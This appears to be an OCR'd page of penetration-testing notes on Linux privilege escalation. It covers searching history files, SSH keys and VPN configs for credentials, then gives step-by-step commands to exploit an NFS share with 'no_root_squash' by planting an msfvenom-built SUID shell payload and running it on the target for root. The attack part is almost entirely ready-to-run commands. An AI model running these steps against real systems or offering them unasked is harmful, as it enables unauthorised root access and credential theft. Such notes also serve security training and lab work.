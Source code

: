 ## Passwords & Keys

Make sure to check for configuration files, .history files (as they might contain credentials such as mysql login creds), check for .ssh keys, .ovpn (openvpn) config files, etc.

Find history files and go through them: `cat -/.*history | less`

---

## NFS

Show NFS export list: `showmount -e <target>`
Mount an NFS share: `mount -o rw,vers=2 <target>:<share> <local_dir>`

If a share has the "no_root_squash" flag, we can upload our own files with root privs.

1. Check on the target if the share has "no_root_squash": `cat /etc/exports`
2. Confirm the share is available for mounting: `showmount -e 10.0.0.1`
3. Create a mountpoint and mount it
```bash
mkdir /tmp/nfs
mount -o rw,vers=2 10.0.0.1:/share/path /tmp/nfs
```
4. Using root on attacker, generate payload:
`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
5. Set SUID: `chmod +xs /tmp/nfs/shell.elf`
6. On the target, run the file and get root: `/share/path/shell.elf`
